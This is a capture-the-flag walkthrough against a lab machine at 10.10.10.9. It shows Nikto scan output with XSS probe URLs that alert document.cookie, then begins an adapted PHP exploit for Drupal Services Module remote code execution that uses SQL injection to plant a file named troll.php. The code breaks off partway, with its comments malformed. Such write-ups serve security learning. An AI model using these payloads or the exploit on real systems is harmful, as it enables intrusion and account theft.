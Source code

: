     - OSVDB-3931: /myphpnuke/links.php?op=MostPopular&ratenum=[script]alert(document.cookie);[/script]&ratetype=percent: myphpnuke is vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
    - /modules.php?op=modload&name=FAQ&file=index&myfaq=yes&id_cat=1&categories=%3Cimg%20src=javascript:alert(9456);%3E&parent_id=0: Post Nuke 0.7.2.3-Phoenix is vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
    - /modules.php?letter=%22%3E%3Cimg%20src=javascript:alert(document.cookie);%3E&op=modload&name=Members_List&file=index: Post Nuke 0.7.2.3-Phoenix is vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
    - OSVDB-4598: /members.asp?SF=%22;}alert(223344);function%20x(){v%20=%22: Web Wiz Forums ver. 7.01 and below is vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
    - OSVDB-2946: /forum_members.asp?find=%22;}alert(9823);function%20x(){v%20=%22: Web Wiz Forums ver. 7.01 and below is vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
    - OSVDB-12184: /index.php?=PHPB8B5F2A0–3C92–11d3-A3A9–4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
    - OSVDB-3092: /README.TXT: This might be interesting…
    - OSVDB-3092: /readme.txt: This might be interesting…
    - OSVDB-3092: /user/: This might be interesting…

We can see that the web server is running Drupal 7 and it is vulnerable to several to XSS and possibly SQL Injection. I started looking for a Drupal 7 exploit and I came across https://www.ambionics.io/blog/drupal-services-module-rce
They explain in depth the code of the exploit in the link above. I suggest to read it even if you’re not doing the CTF.

I named this file drupal.php

    #!/usr/bin/php
    <?php
    Drupal Services Module Remote Code Execution Exploit
    https://www.ambionics.io/blog/drupal-services-module-rce
    cf
    #
    Three stages:
    1. Use the SQL Injection to get the contents of the cache for current endpoint
    along with admin credentials and hash
    2. Alter the cache to allow us to write a file and do so
    3. Restore the cache
    Initialization
    error_reporting(E_ALL);
    define(‘QID’, ‘anything’);
    define(‘TYPE_PHP’, ‘application/vnd.php.serialized’);
    define(‘TYPE_JSON’, ‘application/json’);
    define(‘CONTROLLER’, ‘user’);
    define(‘ACTION’, ‘login’);
    $myfile = fopen(“payload1.txt”, “r”) or die(“Unable to open file!”);
    $payload1 = fread($myfile,filesize(“payload1.txt”));
    $url = ‘10.10.10.9’;
    $endpoint_path = ‘/rest’;
    $endpoint = ‘rest_endpoint’;
    $file = [
    ‘filename’ => ‘troll.php’,
    ‘data’ => $payload1
    ];
    $browser = new Browser($url . $endpoint_path);
    Stage 1: SQL Injection
    class DatabaseCondition
    {
    protected $conditions = [
    “#conjunction” => “AND”
    ];
    protected $arguments = [];
    protected $changed = false;